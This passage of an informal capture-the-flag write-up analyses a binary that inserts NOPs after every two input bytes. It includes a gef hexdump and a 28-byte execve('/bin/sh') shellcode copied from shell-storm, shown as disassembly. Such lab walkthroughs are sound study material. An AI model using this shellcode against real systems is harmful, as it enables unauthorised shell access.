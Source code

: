 ![Alt text](image-4.png)
```
gef➤  hexdump byte eax
0xffffcb10     61 62 90 90 63 64 90 90 65 66 90 90 c3 85 04 08    ab..cd..ef......
0xffffcb20     40 2a fa f7 a0 cb ff f7 10 cb ff ff 10 cb ff ff    @*..............
0xffffcb30     0c 00 00 00 0c 00 00 00 06 00 00 00 0c 00 00 00    ................
0xffffcb40     c0 86 04 08 00 a0 04 08 58 cf ff ff a8 86 04 08    ........X.......
```
(wow you could hexdump in gef, neat)

alright, we got the basic idea of what's happening. when we give an input till the execute function is called the input is sitting in eax. Then after the execute function the input after every two bytes there are two [NOP](https://en.wikipedia.org/wiki/NOP_(code)) inserted. And when we send that altered input, we get a segmentation fault. 

let's tackle how we are going to find the flag, if we want to search for the flag we need a terminal. so we need a shell. and after googling (who am i fooling i saw another writeup) we can use `/bin/sh` command to make a shell for us. So we need use [syscalls](https://asm.sourceforge.net/syscall.html) to send a command. me with 0 knowledge of this googled and found [shell-storm](http://shell-storm.org/). Basically there are bunch of shellcodes already made that you could just copy paste and exploit. But problem is the code breaks after 2 bytes so all our commands need to be exactly 2 bytes. Found this 28 bytes shell code from this [link](http://shell-storm.org/shellcode/files/shellcode-811.html) which mostly has 2 bytes.

```
8048060: 31 c0                 xor    eax,eax
8048062: 50                    push   eax
8048063: 68 2f 2f 73 68        push   0x68732f2f
8048068: 68 2f 62 69 6e        push   0x6e69622f
804806d: 89 e3                 mov    esp,ebx
804806f: 89 c1                 mov    eax,ecx
8048071: 89 c2                 mov    eax,edx
8048073: b0 0b                 mov    0xb,al
8048075: cd 80                 int    0x80
8048077: 31 c0                 xor    eax,eax
8048079: 40                    inc    eax
804807a: cd 80                 int    0x80
```
